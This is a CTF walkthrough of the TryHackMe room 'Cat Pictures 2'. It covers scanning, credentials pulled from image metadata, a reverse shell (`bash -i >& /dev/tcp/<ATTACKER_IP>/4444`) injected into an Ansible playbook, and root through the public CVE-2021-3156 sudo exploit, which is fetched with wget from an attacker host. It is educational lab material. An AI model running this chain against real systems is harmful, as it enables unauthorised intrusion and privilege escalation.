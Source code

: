 ```yaml
---
layout: post
title: TryHackMe/Easy/Cat Pictures 2
abbrlink: a257802cff1f46bcbc64c9c780c6db2f
tags:
  - baronsamedit
  - ansible
  - gitea
  - web
  - linux
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - Cat Pictures 2
date: 1696724067959
updated: 1721507451496
---
```


<https://tryhackme.com/room/catpictures2>

# Enumeration

## \[+] 10.10.236.55 - cat.thm

Using `echo` and `>>` to append the IP address with the domain name to my `/etc/hosts` file. Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

First, I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online:

```sh
sudo echo '10.10.126.64 cat.thm' >> /etc/hosts
export RHOSTS=10.10.126.64
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

## \[+] Port 80 - HTTP - Lychee

### \[-] cat.thm/

Here we have a [Lychee](https://github.com/LycheeOrg/Lychee) photo management system:

![36dc958960eb76bf136144ea372b235e.png](/resources/a1c6a77146954c209f5b1d19d2c8df54.png)

After clicking on "Public" opens the photo album:

![e3ecbf661b6c80c49fe9bdb9af14db12.png](/resources/c32bec0d2c0c44278834e718182a5dc5.png)

In the top-right corner there is an "i" icon to open the "About" panel and if we check the details of the first photo titled "timo-volz", we find our first clue in the description:

![15353583f3859d74e7bbd24c95fc4102.png](/resources/841549da1adf4c598a3ebe019db4629b.png)

Right-click on the picture and click "Save as" then give it any file name to save it. Next we use [exiftool](https://linux.die.net/man/1/exiftool) to check the metadata:

```sh
exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg
```

In the metadata we find the next clue under "Title":

![a00fa64fe228045008b4cfd723a0e7d7.png](/resources/561dc1a76c804a4e83782434c11a6e0a.png)

## \[+] Port 8080 - HTTP - nginx

Here we have the default page for [nginx](http://nginx.org/):

![76c6f9e83785fc6f8fa214b52ed449a1.png](/resources/b5a802a5edee4ce3b9800e583a3b4cf8.png)

Navigating to the text file found from the photo metadeta we find a note and some credentials:

![049310c40e9709897789ff9b85d9f1e9.png](/resources/3b0fe879bbcc4e1bb49acdf0ff2a313f.png)

## \[+] Port 3000 - HTTP - Gitea

Here we find an instance of [Gitea](https://about.gitea.com/). The error message suggests that we should be visiting the website locally or the links generated might be broken:

![a2a5a3043d3d58d8ab2533c034eb90bb.png](/resources/b1a6bca86cf5494cb452ecea306cdbf2.png)

After logging in with the credentials we found from the note, we find a clue on where to get the first flag:

![6710020f9f4df87d519577d224651ebd.png](/resources/834a59f226cb481a80e95ac88f9cd774.png)

Clicking on "samarium/ansible" will bring us to the directory to where the first flag is:

![4131a80c30e8bd76b5b190427879103d.png](/resources/eb825678f0f54e848fe5220f69966710.png)

# Initial Foothold

### \[-] bismuth\@catpictures-ii

Next if we check "playbook.yaml" we find configurations for [Ansible](https://en.wikipedia.org/wiki/Ansible_\(software\)) which is used to automate the management of multiple machines:

![116f950421563bdc1453d52d9aa89122.png](/resources/8a91136118284a47bc1148d90b591699.png)

We can change the command from `whoami` to a reverse shell by clicking the pencil icon to edit the configuration:

![296653aec03a5b6c60aa0bcca512563d.png](/resources/87897e2b142647c293c29dfe17bdd3ac.png)

On line 9, we change `whoami` to `bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"`:

![c4fd6a0a57581335377cf82aa0af0478.png](/resources/e4f2bdd75cf44310bc093ee75019a963.png)

![1feae2317817cf4566156f4ec2bd56e3.png](/resources/1b7921344e20448a9e6e976201a4967b.png)

Then scroll down and click "Commit Changes" to save our edit:

![d05bb7101488193d99e04836b78a0ed0.png](/resources/0de04dbf1a6c47b68d960f8cb2f7c8dc.png)

## \[+] Port 1337 - HTTP - Ansible/OliveTin

Here we have the dashboard for [OliveTin](https://www.olivetin.app/) which will allow us to execute our reverse shell `bash` command that we edited in "playbook.yaml".

To get our reverse shell, first we need to start a listener on the attacker machine using [nc](https://linux.die.net/man/1/nc) listening on port 4444:

```sh
nc -nvlp 4444
```

Then we click the "Run Ansible Playbook" button on OliveTin:

![235740bd7eeda32da7fe3ed727c11862.png](/resources/8c28039946ca4edf90eab1fb6d92df50.png)

And check back to our terminal running `nc` for the connection from the victim machine:

![d9d1bdb24617893552e3a2fa661e25e4.png](/resources/965ef0ee1d1b4694aa5ae8b31e398f6c.png)

We can find the next flag in `/home/bismuth/flag2.txt`:

![e2e7ffc3c543cb92e1803614a0fa3ecd.png](/resources/8782b0fe702c4e0792d01570834334d4.png)

### \[-] root\@catpictures-ii

Checking the version of `sudo`:

```
sudo --version
```

![f6f5ec472f3fbe8193e1db8e9656457e.png](/resources/fe0d3632055a4238ad9258ff8708b057.png)

This version of `sudo` is vulnerable to [CVE-2021-3156](https://nvd.nist.gov/vuln/detail/CVE-2021-3156)/[Baron Samedit](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt) and an exploit is readily available by blasty on [GitHub](https://github.com/blasty/CVE-2021-3156).

To use this exploit, first we download the repository from GitHub on the attacker machine, compress the folder and host the file using Python:

```sh
git clone https://github.com/blasty/CVE-2021-3156.git
python3 -m http.server 8888
```

Then on the victim machine we download the file using `wget`:

```sh
wget http://<ATTACKER_IP>:8888/exploit.tar
```

After the file has been downloaded on the victim machine, we need to extract the files from "exploit.tar" using `tar`:

```sh
tar xopf exploit.tar
```

Then change directories with `cd` and build the exploit using `make`:

```sh
cd CVE-2021-3156
make
```

When the exploit has been compiled we should see a binary named "sudo-hax-me-a-sandwich":

![1734a91680103db780a71b849bb06064.png](/resources/ca150443b8be4f6fbbe6a5e362f2cb8e.png)

Running the binary shows a lists of targets:

```sh
./sudo-hax-me-a-sandwich
```

![c0f20bb878385e929a87ed4b4ffcf207.png](/resources/0ef9ad78903b4015bff53a1f1859391b.png)

To select a target, we run the command `./sudo-hax-me-a-sandwich <TARGET>`, in this case we are targeting `0` for sudo version 1.8.21:

```sh
./sudo-hax-me-a-sandwich 0
```

When we check `id` after running the exploit we should be root:

```sh
id
```

![11391c3238e594f717a2abff6ba341c5.png](/resources/ba014f43e8a34c5796b40bed7492d4f5.png)

And we can get the last flag in `/root/flag3.txt`:

```sh
cat /root/flag3.txt
```

![027b6ef0e46851d16be1598272e49ad2.png](/resources/3521148e1e6a40a8b29c182b7bd42d75.png)
